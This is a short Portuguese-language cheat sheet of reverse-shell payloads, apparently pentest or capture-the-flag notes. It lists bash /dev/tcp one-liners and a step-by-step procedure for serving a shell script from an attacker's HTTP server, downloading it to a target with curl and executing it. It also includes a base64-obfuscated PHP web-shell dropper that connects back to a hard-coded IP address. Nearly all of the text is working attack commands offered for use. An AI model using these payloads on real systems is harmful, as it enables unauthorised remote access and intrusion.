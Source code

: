 ## Payloads:  

### Bash:  
`/bin/bash -c 'bash -i > /dev/tcp/$LHOST/$LPORT 0>&1`  
`bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1`  

## Shell reversa com script bash:  
1. Crie um script em bash com o payload `bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1` e extensão `.sh`.  
2. Inicie um servidor http na máquina atacante com `python3 -m http.server 80`  
3. Faça o download do script na máquina alvo na pasta temporária com `curl http://$LHOST/shell.sh -o /tmp/shell.sh`  
4. Altere a permissão de execução do arquivo no alvo com `chmod +x /tmp/shell.sh`  
5. Execute o script no alvo com `/bin/bash /tmp/shell.sh`  


## Criar shell reversa em PHP no alvo com echo, utilize o comando abaixo para gerar o payload:  
```bash
echo "echo $(echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.9.58.140/443 0>&1'\"); ?>" | base64) | base64 -d > shell.php"
# Payload:
#echo PD9waHAgZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNTguMTQwLzQ0MyAwPiYxJyIpOyA/Pgo= | base64 -d > shell.php
```
